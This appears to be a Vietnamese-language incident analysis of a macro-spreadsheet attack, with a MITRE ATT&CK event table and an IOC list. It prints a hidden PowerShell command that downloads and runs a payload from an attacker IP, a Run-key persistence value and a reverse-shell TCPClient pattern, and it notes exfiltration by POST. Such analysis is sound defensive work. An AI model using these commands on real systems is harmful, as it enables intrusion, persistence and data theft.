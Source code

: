 ### Chi tiết:

| # | Timestamp (UTC+7)       | Event ID / Rule ID | Description                                                                                     | MITRE ATT\&CK Tactic               | MITRE ATT\&CK Technique (ID / Name)                                                 |
| - | ----------------------- | ------------------ | ----------------------------------------------------------------------------------------------- | ---------------------------------- | ----------------------------------------------------------------------------------- |
| 1 | 2025-08-14 15:56:58.071 | 4103 / 100206      | **Invoke-WebRequest** tải `Test.ps1` từ máy chủ `192.168.200.132` và lưu thành `payload.ps1`    | **Command and Control**            | **T1105 – Ingress Tool Transfer** (Tải công cụ/payload từ máy chủ C2)               |
| 2 | 2025-08-14 15:56:58.884 | 11 / 92213         | File `payload.ps1` được tạo trong thư mục `%TEMP%`                                              | **Command and Control**            | **T1105 – Ingress Tool Transfer** (Lưu trữ công cụ độc hại tại endpoint)            |
| 3 | 2025-08-14 15:56:58.885 | 1 / 92029          | `powershell.exe -ep bypass -f payload.ps1` được thực thi từ vị trí đáng ngờ                     | **Execution**                      | **T1059.001 – Command and Scripting Interpreter: PowerShell**                       |
| 4 | 2025-08-14 15:56:58.915 | 13 / 192302        | Sửa registry key `HKCU\...\Run\OfficeUpdate` để thực thi khi đăng nhập                          | **Persistence / Privilege Escal.** | **T1547.001 – Boot or Logon Autostart Execution: Registry Run Keys/Startup Folder** |
| 5 | 2025-08-14 15:56:58.995 | 4104 / 100502      | PowerShell tạo TCPClient kết nối `192.168.200.132:4444` (reverse shell)                         | **Command and Control**            | **T1071.004 – Application Layer Protocol: Web Protocols** *(hoặc T1071 chung)*      |
| 6 | 2025-08-14 15:57:47.948 | 4103 / 100206      | PowerShell tiếp tục sử dụng `Invoke-WebRequest` (để `exfil` dữ liệu)| **Exfiltration / C2**              | **T1041 – Exfiltration Over C2 Channel**|

## IOC

#### Network

- IP (attacker): 192.168.200.132
- Ports: HTTP 8000 (ingress/tool transfer & exfil), TCP 4444 (reverse shell)
- URL: http://192.168.200.132:8 000/Test.ps1
- HTTP POST target: http://192.168.200.132:8000/ (exfil via POST)

#### Host / Files

- Malicious spreadsheet: *.xlsm (macro-enabled)
- Downloaded payload: %TEMP%\payload.ps1
- e.g. C:\Users\noname\AppData\Local\Temp\payload.ps1
- Original script on attacker: Test.ps1
- Exfiltrated file example: Password.txt

#### Registry / Persistence

- Run key: HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\OfficeUpdate
- Registry value content: powershell.exe -w hidden -ep bypass -File "$env:TEMP\payload.ps1"

#### Processes / Commandlines
- C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass -f C:\Users\...\AppData\Local\Temp\payload.ps1
- Macro command: powershell -w hidden -nop -c "Invoke-WebRequest 'http://192.168.200.132:8000/Test.ps1' -OutFile $env:TEMP\payload.ps1; powershell -ep bypass -f $env:TEMP\payload.ps1"
- Powershell code pattern: New-Object System.Net.Sockets.TCPClient('192.168.200.132',4444) or TCPClient(

#### Timestamps (from your logs)
- 2025-08-14 15:56:58 → 15:57:47 (UTC) — useful for narrowing windows of compromise in investigations

## Incident response
